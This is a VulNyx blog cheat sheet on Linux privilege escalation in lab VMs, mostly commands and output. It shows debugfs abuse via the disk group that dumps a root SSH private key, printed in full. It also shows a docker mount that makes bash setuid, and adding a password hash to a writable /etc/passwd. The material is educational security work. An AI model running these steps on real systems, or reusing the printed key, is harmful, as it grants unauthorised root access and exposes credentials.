 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Groups

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system **disks** and **partitions**.

**Check Group**

```ruby
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)
```

**Abuse Group**

```ruby
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           494M     0  494M   0% /sys/fs/cgroup
tmpfs            99M     0   99M   0% /run/user/1000
```
```ruby
low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
vnpxKBu/BFHAogrQt/i7MI3+64POT6X8nVWokKi9raRlaSFl2k8373C+lLyzt/JewfThUl
VQINQ33vGIemNAbvJkqmMveAthMFEnAnNCnB6jct/Mhr74LjWgmX47tjrTxh3rdUF3SyVV
J6HJMX015n+1md/zGX6CcjqaZGdCi5WY6xJHFkpp9yyszID8fmouUnQOq66C52Dbv5QNxV
H8wSpH0HfTP3lqqMiXga8kUQGrHkfzmDT66wpTT6xvEHEa6zApu1PrDiW5K3EGhpTR/ylm
GhcjB2iDrwAAA8CEFaHVhBWh1QAAAAdzc2gtcnNhAAABAQCy2QaZzVb56kzTDXdVCss7/A
w1bDEWW2i2lr16VglVdKUFz4+AXoi+enEoG78EUcCiCtC3+Lswjf7rg85PpfydVaiQqL2t
pGVpIWXaTzfvcL6UvLO38l7B9OFSVVAg1Dfe8Yh6Y0Bu8mSqYy94C2EwUScCc0KcHqNy38
yGvvguNaCZfju2OtPGHet1QXdLJVUnockxfTXmf7WZ3/MZfoJyOppkZ0KLlZjrEkcWSmn3
LKzMgPx+ai5SdA6rroLnYNu/lA3FUfzBKkfQd9M/eWqoyJeBryRRAaseR/OYNPrrClNPrG
8QcRrrMCm7U+sOJbkrcQaGlNH/KWYaFyMHaIOvAAAAAwEAAQAAAQBFdRunJ6Qbsu7bGGO7
11FOnnhvVvFJaX6lSq2TkU5WrdJZC18Dz7LzpsHDfeMVXlqdk+2zRRoNpVfXR30cWa5dvC
KW67GeejYYOixAOHvUtciOIyr4yVwbn2rSeud/mGuKXetO/LTNYb3Onm6VBHZeOWYZAYJg
91UrC9d2jTv9VZer6rtGJJKVdO8XrVgrciQU2GQgk0bBhcxXV4XOC7wYsoIdEuvkQG53Wu
PZmbU0uoIE6MSVtm3dct7uEt190KAkUNxKOflDmWUgjcyKODeQj/pwUgRaXzNTRaa+tuBU
9I0YwCS+LKt+KvyxO5DrbBDs5egoR3Pdz+Btcivn2i2hAAAAgCYIx3jhzhe5gwS5MnB6yW
LlszD7QWvNm+hhoO8NqIhCEOPRMwMN7fNJ3ACfkh4Tin1YObuUba8Ekn3cJSCt7fZ9Rh4k
tNsRoTZL6Az78gyAq2+OpZYQfLhxSDeypBRcih2ysvuXXZRVk1CEFe1XqNSn4wE82knfk/
qAGo5gPpwiAAAAgQDnpzswlg0aC/RfTdrGh9HuHc8fJQUgBbt3ofKz+ulOKSnnmlfDasK9
ATzM2Ee7HOmV0xXaAaXDsRXkgjoSQow9QWhDiLpR5eRbjjXEY3xcTpqQA1yNNqLkJmA1yP
QnRSJDbLQspSdlC6YDzHa0FcwkK14b0IN2AM7+APXsAQ2MywAAAIEAxaUIB8cQoUkdEeGD
QdVyjBpQQrjARPt5tmnTm1tmJpobkrpmTw7/VDYFUnJ/k7YYiUfsqyw7RJJQPYtnNTanBB
IYohf/jZd0WBAEsTzmtYLHcjo+ln7gMDtyKVj+SqhkXDHaeOkzpW4Ev5RB+clZLRwrAWuu
gaN4ZcqmaVXfzC0AAAALcm9vdEBzYXRvcmk=
-----END OPENSSH PRIVATE KEY-----
```

#### adm

#### docker

When a user is part of the `docker` **group**, they have the ability to **manage containers**.

**Check Group**

```
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),109(docker)
```

** Abuse Group**

```ruby
low@vulnyx:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# chmod 4755 /bin/bash
# exit
low@vulnyx:~$ /bin/bash -pi
```

#### lxd

#### fail2ban

#### video

---

### /etc/passwd (Writable)

If a low-privileged user has permissions to write to the `/etc/passwd` file, an attacker can remove the `:x:` (on the `root` user line) and add a **hash**.  
This will change the file where a user's authentication is performed, from being done through the `/etc/shadow` file to being done through the `/etc/passwd` file.

**Check Permissions**

```ruby
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd
```

**Create Hash**

```ruby
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0
```

**Add Hash**

```ruby
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash

# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash
```

**Authenticate**

```ruby
low@vulnyx:~$ su -
Password:

root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
